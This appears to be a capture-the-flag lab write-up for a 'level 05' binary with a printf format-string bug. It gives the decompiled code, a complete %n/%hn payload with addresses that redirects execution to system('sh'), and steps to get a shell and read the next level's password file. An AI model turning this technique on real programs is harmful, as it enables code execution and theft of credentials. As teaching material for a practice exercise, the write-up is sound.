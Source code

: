 # LEVEL 05

* decompile the binary:
    ```c
        int main() {
        char input[100];

        fgets(input, 0x64, stdin);
        ...
        printf(input);
        exit(0);
    }

    ```
    - store string to input from stdin
    - call printf with the input as first parametre
    ___

* prepare:
    the input that we write will be sended to printf so we can exploit tha using `"%n"`
    python -c 'print "\x76\xd6\xff\xff\x74\xd6\xff\xff\x6c\xd6\xff\xff\x6e\xd6\xff\xff"' > input
    python -c 'print "%2036c%10$n%32865c%11$hn%9835c%12$hn%18710c%13$hn"' >> input
    ___

* exec bin: `cat input - | ./level05`
    - got shell prompt
    - cat /home/users/level06/.pass -> flag
    ___

* explanation
    ```
    0xffffd66c -> return address
    0xffffd674 -> system() param address
    0x08048865 -> "sh"
    0xf7e6aed0 -> system() address
    16 -> is the number of caracter writed before %

    0x0804 - 16     == 2036
    0x8865 - 0x0804 == 32865
    0xaed0 - 0x8865  == 9835
    0xf7e6 - 0xaed0 == 18710
    ```
    ___
    
* helper: to find address of a string in the binary using gdb
    https://stackoverflow.com/questions/6637448/how-to-find-the-address-of-a-string-in-memory-using-gdb

    ```shell
    (gdb) info proc map
    (gdb) find 0x7ffff7a1c000,0x7ffff7bd2000,"sh"
    ```
